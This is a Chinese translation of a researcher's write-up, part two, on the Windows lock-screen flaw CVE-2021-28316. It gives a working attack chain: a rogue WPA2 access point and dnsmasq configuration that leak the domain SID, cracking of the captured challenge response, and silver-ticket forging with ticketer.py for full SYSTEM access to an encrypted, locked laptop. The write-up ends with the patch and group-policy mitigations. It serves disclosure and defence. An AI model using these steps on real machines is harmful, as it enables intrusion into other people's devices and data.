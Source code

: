 
# 深入分析CVE-2021-28316漏洞（下）


                                阅读量   
                                **175070**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者Matthew Johnson，文章来源：shenaniganslabs.io
                                <br>原文地址：[https://shenaniganslabs.io/2021/04/13/Airstrike.html﻿](https://shenaniganslabs.io/2021/04/13/Airstrike.html%EF%BB%BF)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p3.ssl.qhimg.com/t01112bfaa32b614b9d.jpg)](https://p3.ssl.qhimg.com/t01112bfaa32b614b9d.jpg)



在上一篇文章中，我们为读者详细介绍了CVE-2021-28316漏洞的背景知识，并展示了实现本地提权的过程，在本文中，我们将继续为读者介绍如何恢复HTML哈希值等重要知识点。

（接上文）

## 恢复NTLM哈希值

然后，攻击者可以将捕获到的这个MSCHAPv2质询响应的哈希值，通过工具chapcrack转换为Cloud Crack格式，并提交给crack.sh服务进行破解。

[![](https://p5.ssl.qhimg.com/t012a8c9239b6320576.png)](https://p5.ssl.qhimg.com/t012a8c9239b6320576.png)

为了达到演示的目的，在我们的实验中，将使用Impacket的工具secretsdump.py来验证chapcrack输出的K3的前4个字节与计算机账户的NTLM哈希值的后4个字节是否匹配。

[![](https://p3.ssl.qhimg.com/t0171e784ca38ab9fea.png)](https://p3.ssl.qhimg.com/t0171e784ca38ab9fea.png)

作为一个经过身份验证的域用户，我们可以通过多种方式获取域SID。其中，最简单的方法是运行whoami /all命令。

[![](https://p5.ssl.qhimg.com/t01d6f3afe6912d4586.png)](https://p5.ssl.qhimg.com/t01d6f3afe6912d4586.png)

现在，我们已经掌握了为设备上的CIFS服务伪造一个服务票据所需的所有信息。由于我们可以指定服务票据中包含的用户和组SID，这样的话，我们就可以用它来作为具有管理权限的用户来访问CIFS服务了。

为此，我们可以使用Impacket中的工具ticketer.py和下面的命令来完成这个任务。

```
ticketer.py -nthash c86afa9bd3c7afa9ff31da6af182ddbe -domain-sid S-1-5-21-553012155-822088108-1873906631 -domain INITECH.local -spn cifs/DESKTOP-J5KI5KA.initech.local administrator
export KRB5CCNAME=administrator.ccache
```

[![](https://p2.ssl.qhimg.com/t011303725359ecc25f.png)](https://p2.ssl.qhimg.com/t011303725359ecc25f.png)

这样的话，使用smbclient，我们就可以访问笔记本电脑的整个文件系统了。

[![](https://p4.ssl.qhimg.com/t0177c34189a363821b.png)](https://p4.ssl.qhimg.com/t0177c34189a363821b.png)

Impacket中的smbexec.py之类的工具为我们提供了一种简便的方法，可以在SYSTEM用户的安全上下文中在主机上执行命令。

[![](https://p3.ssl.qhimg.com/t0113d22de36734f8dd.png)](https://p3.ssl.qhimg.com/t0113d22de36734f8dd.png)

在发现可以从锁屏状态下获取质询响应的哈希值之后，攻击者又找到了一些更有趣的攻击情形，例如，攻击启用了全盘加密（FDE）的、处于锁屏状态的笔记本电脑。

但是，为了利用这一漏洞，目前还缺少重要的一环，即域SID。我们需要一种无需先登录到计算机即可恢复它的方法。



## 缺失的一环

在发现这种攻击方法几个月之后，一位客户联系我们，要求对其一台SOE笔记本电脑进行相应的安全测试。他们特别关心的是，如果攻击者能够将魔爪伸向受到BitLocker全盘加密保护的、处于锁屏状态的笔记本电脑上，将会造成多大的损失。

针对这种特定攻击情形，我本人和我的同事Danyal Drew（[@DanyalDrew](https://github.com/DanyalDrew)）重新考虑了这个想法，并着手考察是否可以找到一种无需登录计算机即可泄漏域SID的方法。

当加入域的计算机首次访问网络时，将执行许多CLDAP搜索，以识别域控制器上可用的服务。这些消息称为LDAP ping。

这听起来很有希望，因为在此搜索过程中使用的CLDAP查询包含以下信息：
- DnsDomain
- Host
- DnsHostName
- User
- DomainSid
- DomainGuid
我们的初步测试方法是，运行Wireshark捕获并观察无线客户端发出的LDAP DNS请求。

[![](https://p1.ssl.qhimg.com/t01a1a56ede6e548da3.png)](https://p1.ssl.qhimg.com/t01a1a56ede6e548da3.png)

然后，将这些srv-host DNS条目添加到dnsmasq配置中并重新连接客户端后，我们找到了目标内容。

[![](https://p5.ssl.qhimg.com/t0185e01eaaa8086f5f.png)](https://p5.ssl.qhimg.com/t0185e01eaaa8086f5f.png)

这样，我们现在就获得了入侵处于锁屏状态的笔记本电脑所需的一切。



## 在启用了全盘加密的情况下访问处于锁屏状态的计算机

实际上，这里的恶意AP配置也可用于通过目标设备的锁屏页面捕获质询响应的哈希值并提交给crack.sh服务。

要泄漏域SID，我们需要将笔记本电脑加入攻击者控制的网络；在该网络中，我们将使用攻击者的IP地址响应笔记本电脑发出的所有DNS SRV请求。

这样的话，我们就能够捕获包含域SID和域名的“ LDAP ping”数据包。同样的，我们还需要运行恶意访问点，并强制客户端从锁屏页面进行连接。但是，这次，我们将使用下面的hostapd.conf和hostapd-psk文件创建WPA2-PSK网络，而不是配置访问点以支持PEAP身份验证。

```
interface=$WIRELESS_INTERFACE_HERE
ssid=Airstrike_WPA
channel=1
auth_algs=1
wpa=3
wpa_psk_file=./hostapd-psk
wpa_key_mgmt=WPA-PSK 
wpa_pairwise=CCMP TKIP
rsn_pairwise=CCMP
```

然后，建立一个文件hostapd-psk，用于配置网络的密码。

```
00:00:00:00:00:00 airstrike
```

由于我们希望笔记本电脑能够连接到自己的网络，因此，我们还需要使用dnsmasq来运行DHCP和DNS服务器，所需的dnsmasq.conf文件如下所示。

```
interface=$WIRELESS_INTERFACE_HERE
dhcp-range=10.0.0.10,10.0.0.100,8h
dhcp-option=3,10.0.0.1
dhcp-option=6,10.0.0.1
server=8.8.8.8
log-queries
log-dhcp
```

接下来，让我们可以为无线适配器分配一个IP地址，并启动DNS/DHCP服务器。

```
ifconfig $WIRELESS_INTERFACE 10.0.0.1/24 up
dnsmasq -d -C dnsmasq.conf
```

为了捕获来自笔记本电脑的流量，我们还需要在无线接口上启用tcpdump。

```
tcpdump -i $WIRELESS_INTERFACE -s 65535 -w $OUT_FILE.pcap
```

一旦运行上述命令，我们就可以从锁屏页面连接到无线网络，并且会在笔记本电脑上看到从我们的DHCP服务器接收的IP数据包。

需要注意的是，笔记本电脑首次连接时，我们会看到许多无应答的SRV DNS请求。我们需要记录下所有这些内容，并修改dnsmasq.conf文件，以使用无线接入点的IP地址可以响应它们。

```
interface=$WIRELESS_INTERFACE_HERE
dhcp-range=10.0.0.10,10.0.0.100,8h
dhcp-option=3,10.0.0.1
dhcp-option=6,10.0.0.1
server=8.8.8.8
log-queries
log-dhcp

srv-host=_ldap._tcp.Default-First-Site-Name._sites.dc._msdcs.INITECH.local,10.0.0.1,389
srv-host=_ldap._tcp.dc._msdcs.INITECH.local,10.0.0.1,389
srv-host=_ldap._tcp.a3fcc77a-710d-4956-af07-bfa9187b91e9.domains._msdcs.INITECH.local,10.0.0.1,389
srv-host=_ldap._tcp.INITECH.local,10.0.0.1,389
```

接下来，我们可以断开笔记本电脑与接入点的连接，然后重新连接，并检查新的pcap文件的内容。如果我们过滤的是CLDAP协议的数据包，我们就会发现笔记本电脑试图对攻击者的IP进行LDAP ping。并且，LDAP ping消息的内容将包括活动目录域名、笔记本电脑的主机名和域SID。

现在，我们可以再次使用工具ticketer.py为CIFS服务创建一个白银票据，并使用smbclient进行身份验证，从而获得对设备文件系统的无限制访问权限。

注意：在某些情况下，默认的RID 500帐户在加入域的主机上并不具有本地管理员权限。在这种情况下，可以通过暴力搜索方法：不断递增白银票据中的RID，直到发现有效帐户为止。



## 补救措施

这个安全问题已报告给Microsoft安全响应中心，并且已在2021年4月的最新安全更新中得到修复。

作为进一步的加强措施，我们可以通过以下组策略设置，禁用从锁屏页面访问网络选择UI的功能：

```
Computer Configuration | Administrative Templates | System | Logon --&gt; Do not display network selection UI

```

此外，我们也可以通过配置注册表，启用DontDisplayNetworkSelectionUI标志来实现上述目的：

```
[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\System]
"DontDisplayNetworkSelectionUI"=dword:00000001
```
